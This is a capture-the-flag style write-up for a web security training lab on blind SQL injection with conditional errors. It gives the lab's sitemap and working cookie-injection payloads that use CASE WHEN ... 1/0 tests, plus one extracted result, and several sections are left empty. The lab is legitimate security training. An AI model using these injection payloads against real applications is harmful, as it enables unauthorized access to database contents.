





# Lab: Blind SQL injection with conditional errors

## Sitemap:

Path: `/`

Path: `/login`

Path: `/my-account`

Path: `/filter?category=Corporate+gifts`

Path: `/product?productId=2`

## Identification:

URL: `https://0ab8007d033a0f3780cb08ad00eb007b.web-security-academy.net/`

Payload: `Cookie: TrackingId=WpxCYwlTPGZT1jK5'; session=MZWBd0eG4IKK4gR65brcZWs8wcBWPkiX`





## Exploitation:

### Preparation:

Statement that evals to true:

```
Cookie: TrackingId=9yFpW07KdXAHHysH'+and+1=(CASE+WHEN+(1=1)+THEN+1+ELSE 1/0+END)--+- ; session=lMYctbHZgE7pbolxmoUdSIJJCTf4Gv4P
```



Statement that evals to false:

```
Cookie: TrackingId=9yFpW07KdXAHHysH'+and+1=(CASE+WHEN+(1=9)+THEN+1+ELSE 1/0+END)--+- ; session=lMYctbHZgE7pbolxmoUdSIJJCTf4Gv4P
```



### Get_version:

### Get_user:

```
The user is: PETER
```



### Get_databse:


